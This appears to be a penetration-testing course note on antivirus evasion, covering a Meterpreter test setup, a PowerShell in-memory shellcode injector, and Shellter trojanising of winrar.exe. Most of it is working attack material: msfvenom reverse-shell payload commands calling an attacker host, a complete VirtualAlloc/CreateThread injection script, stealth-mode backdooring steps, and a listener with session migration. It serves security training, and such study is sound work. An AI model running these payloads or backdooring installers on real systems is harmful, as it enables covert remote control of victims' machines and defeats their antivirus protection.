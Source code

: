 

Originally designed to remove viruses, AV's typically include firewalls, site scanners, etc.  
  
[https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/](https://cloudblogs.microsoft.com/microsoftsecure/2018/03/01/finfisher-exposed-a-researchers-tale-of-defeating-traps-tricks-and-complex-virtual-machines/)  
  
  
Test Setup:  
  
- Create a Meterpreter payload:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f exe > binary.exe
```

- Upload to VirusTotal:  
	** Convenient but it generates a hash for each unique submission, which is then shared with all participating AV vendors.  
	  As such, take care when submitting sensitive payloads as the hash is essentially considered public from the time of first submission.

![[virus-total-bad.png]]

- Use **nc** OR
```bash
python3 -m http.server 80
```
	to upload to Windows client  
  
- Install Avira on Win client:
```powershell
 C:\Tools\antivirus_evasion\
```

- Turn _Real_-_Time Protection_ on  
  
- Attempt to run _**binary.exe**_
	![[avira-alert.png]]

AV evasion falls into two broad categories: [on-disk](14.2.1%20-%20On-Disk.md) and [in-memory](14.2.2%20-%20In-Memory.md).
  
Given the maturity of AV file scanning, modern malware often attempts **in-memory** operation, avoiding the disk entirely and therefore reducing the possibility of being detected.  



### PowerShell In-Memory Injection:

Will use a technique similar to Remote Process Memory Injection.  
Main difference - we'll target the currently executing process: PowerShell Interpreter.  
```powershell
$code = '  
[DllImport("kernel32.dll")]  
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
  
[DllImport("kernel32.dll")]  
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);  
  
[DllImport("msvcrt.dll")]  
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';  
  
$winFunc =   
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;  
 
[Byte[]]$sc = <place your shellcode here>;  
  
$size = 0x1000;  
  
if ($sc.Length -gt 0x1000) {$size = $sc.Length};  
  
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);  
  
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};  
  
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
.
- Imports _VirtualAlloc_ from _kernel32.dll_  
	- (to allocate memory - Lines 2 - 3)  
- Imports _CreateThread_ from _kernel32.dll_  
	- (create an execution thread - Lines 5 - 6)  
- Imports _memset_ from _msvcrt.dll_  
	- (write arbitrary data to the allocated memory - Lines 8 - 9)  
- Allocates a block of memory using _VirtualAlloc_  
	- (Lines 14 & 19 - 21)  
- Takes each byte of the payload stored in the _$sc_ byte array & Writes it to our newly allocated memory block using _memset_
	- (Lines 15 & 23)  
- Execute in separate thread  
	- (Line 25)  
  
Payload (meterpreter) creation:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -f powershell
```


In order to get it to run, you need to be mindful of the user's [Execution Policy](Execution%20Policy.md).  
  
  
From [Exercise #6:](e17%20-%20AV%20Evasion.md#17.3.5.6) 
  
Although the PowerShell AV bypass we covered in this module is substantial, it has an inherent limitation:  
The malicious script cannot be "double-clicked" by the user for an immediate execution. Instead, it would open in **notepad.exe** or another default text editor.  
  
The tradecraft of manually weaponizing PowerShell scripts is beyond the scope of this module, but we can rely on another open-source framework to help us automate this process.  
Research how to install and use the [Veil](https://github.com/Veil-Framework/Veil) framework to help  

  
  
### Shellter:

[Shellter](Shellter.md) is a dynamic shellcode injector which can bypass AVs.  
  
We'll run in Auto mode for this example:  

Download 32-bit version of **winrar.exe** from [https://www.rarlab.com/download.htm](https://www.rarlab.com/download.htm) onto Kali  
  
In Shellter:  
- Select a Target PE (full/path/**winrar.exe**)  
- Choose Stealth Mode - Y  
- Choose Payload - Meterpreter Reverse TCP  
- Set Meterpreter Options - LHOST & LPORT  
  
In Kali:  
- Start a Meterpreter listener to catch the conn:  
```bash
msfconsole -x "use exploit/multi/handler; set LHOST <attacker_ip>; set LPORT <port>; set PAYLOAD windows/meterpreter/reverse_tcp"
```

Transfer file to compromised Win machine.  
  
*****NOTE:** As it stands, the successful Meterpreter session will close out once the installer is either finished running OR is cancelled.  
  
Add an _AutoRunScript_ to migrate Meterpreter to a separate process immediately after session creation:  
```bash
set AutoRunScript post/windows/manage/migrate
```

Run compromised binary